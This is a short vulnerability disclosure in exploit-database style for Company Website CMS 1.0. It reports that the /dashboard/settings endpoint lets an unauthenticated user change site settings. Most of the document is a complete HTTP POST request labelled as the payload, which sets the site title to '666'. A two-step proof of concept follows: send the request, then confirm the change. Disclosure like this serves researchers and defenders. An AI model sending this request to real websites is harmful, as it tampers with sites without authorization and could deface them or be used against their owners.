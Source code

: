 # Company Website CMS   - site-settings Identification and Authentication Failures


#### Exploit Title: Company Website CMS   - site-settings Identification and Authentication Failures
#### Exploit Author: webraybtl@webray.com.cn inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15517/company-website-cms-php.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15517&title=Company+Website+CMS+in+PHP+and+MySQL+Free+Source+Code

#### Version: Company Website CMS  1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Confirmation of the user's identity, authentication, and session management is critical to protect against authentication-related attacks.

#### Payload used:
```
POST /dashboard/settings HTTP/1.1
Host: 192.168.67.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------130129938625432137941198016745
Content-Length: 1646
Origin: http://192.168.67.9
Connection: close
Referer: http://192.168.67.9/dashboard/settings
Upgrade-Insecure-Requests: 1

-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_title"

666
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_keyword"

Church, Marketing
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_desc"

Lorem ipsum dolor sit amet, consectetur adipisicing elit. Impedit nihil tenetur minus quidem est deserunt molestias accusamus harum ullam tempore debitis et, expedita, repellat delectus aspernatur neque itaque qui quod.
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_about"

 Young coders can use events to coordinate timing and communication between different sprites or pieces of their story. For instance, the when _ key pressed block is an event that starts code whenever the corresponding key on the keyboard is pressed.
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_footer"

© 2022 All Rights Reserved
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="follow_text"

Lorem ipsum dolor sit amet, consectetur adipisicing elit. Impedit nihil tenetur minus quidem est deserunt molestias.
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="site_url"

http://localhost:8080/vogue/
-----------------------------130129938625432137941198016745
Content-Disposition: form-data; name="save"


-----------------------------130129938625432137941198016745--


```



#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/，title has been changed

   ![image-20220810142427550](img/Company Website CMS--/image-20220810142427550.png)

   

   




